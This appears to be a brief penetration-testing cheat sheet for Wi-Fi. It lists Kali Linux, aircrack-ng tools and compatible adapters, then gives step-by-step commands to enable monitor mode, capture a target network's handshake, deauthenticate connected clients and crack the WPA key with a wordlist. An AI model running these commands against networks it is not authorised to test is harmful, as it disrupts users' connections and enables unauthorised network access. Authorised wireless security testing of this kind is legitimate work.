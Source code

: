 Penetration Testing - WiFi

OS = Kali Linux Live Everything > You may download it from https://kali.org
Tools - aircrack-ng

Hardwares - Atheros 9721 or ALFA Model AWUS036NH
OR You may boot Kali Linux Live Everything by making a bootable USB using "RUFUS" and use your own laptop's network adapter (Important! It should support "Monitor Mode" otherwise it will not work)

Tool	Purpose	Example Command

airmon-ng
[Enable monitor mode] >>>
sudo airmon-ng start wlan0

airodump-ng
[Capture network traffic] >>>
sudo airodump-ng -c 6 wlan0mon

aireplay-ng
[Inject/deauth packets] >>>
sudo aireplay-ng -0 1 ...

aircrack-ng
[Crack WPA/WEP keys] >>>
sudo aircrack-ng -w wordlist.lst ...


Kali Linux Commands:

1. ifconfig to check network interfaces
2. iwconfig to check wireless interfaces
 By default the wireless interface is in MANAGED MODE. 
3. airmon-ng stop wlan0 (if the interface is wlan0)
4. airmon-ng start wlan0 ( from stopping to start I will be gone into monitoring mode)
5. airodump-ng --bssid <BSSID> --channel <CHANNEL> -w <ESSID> wlan0 (or if its wlan0mon)
6. Open another terminal or terminal tab and then enter the following command
7. aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0
8. aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap
